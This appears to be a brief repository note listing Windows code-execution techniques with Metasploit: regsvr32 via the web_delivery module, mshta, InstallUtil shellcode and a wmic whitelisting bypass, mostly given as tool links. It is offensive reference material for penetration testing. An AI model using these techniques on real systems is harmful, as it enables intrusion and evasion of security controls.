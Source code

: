windows_exec_ways with msf

regsvr32(sct) : use exploit/multi/script/web_delivery set target 3

mshta(hta) : https://github.com/Jumbo-WJB/CACTUSTORCH 

csc(cs) : https://github.com/Jumbo-WJB/InstallUtil-Shellcode-cs


xls:http://subt0x11.blogspot.com/2018/04/wmicexe-whitelisting-bypass-hacking.html
